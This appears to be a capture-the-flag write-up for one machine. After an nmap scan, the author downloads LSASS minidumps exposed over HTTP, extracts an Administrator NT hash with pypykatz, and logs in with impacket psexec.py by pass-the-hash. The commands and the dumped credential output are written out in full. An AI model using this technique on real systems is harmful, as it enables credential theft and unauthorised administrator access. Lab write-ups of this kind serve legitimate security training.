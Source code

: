 ## First machine

We started by scanning the IP using `nmap`:

        nmap -A [IP]

we got port 80 so we can try to access it using the browser,we found this result:

![](https://i.ibb.co/Vm5gJJt/Screen-Shot-2022-12-29-at-9-29-03-AM.png)

in `dumps/process` i found these three files:

![](https://i.ibb.co/wcpHG80/Screen-Shot-2022-12-29-at-9-32-25-AM.png)

so i download the three of them, then i tried to search for this type of file.

`A Mini Dump crash file is a file that contains a snapshot of the memory of a computer at a specific point in time. It is typically used for debugging purposes, as it can provide information about what caused a crash or error to occur.`

`LSASS (Local Security Authority Subsystem Service) is a process in the Windows operating system that is responsible for enforcing the security policy on the system. It is responsible for managing the security of the system, including authentication of users and devices, and enforcing access controls on resources such as files and network connections.`

then i searched for how can i use them, i found that using the pypykatz tool, i can parse the secrets hidden in the LSASS process.
after running:
        
        pypykatz lsa minidump lsasss.DMP

we got this result:

```
== LogonSession ==
authentication_id 161412 (27684)
session_id 2
username Administrator
domainname DUMPED
logon_server DUMPED
logon_time 2020-10-29T15:19:57.115459+00:00
sid S-1-5-21-3442779028-2509691204-4132320481-500
luid 161412
        == MSV ==
                Username: Administrator
                Domain: DUMPED
                LM: NA
                NT: 78f9261c7b0f08bd9a3b3b13340e4c2a
                SHA1: b1553efa581712a8efead9829535b1a723f7cc40
                DPAPI: NA
```

as you see we got the NT hash, we can use it to log in as Administrator.
using the famous impacket `psexec.py` module we managed to log in:
        
        psexec.py Administrator@[IP] -hashes <NTLM hash>
we got our Administrator in.
in Desktop of the Administrator we got our flag.
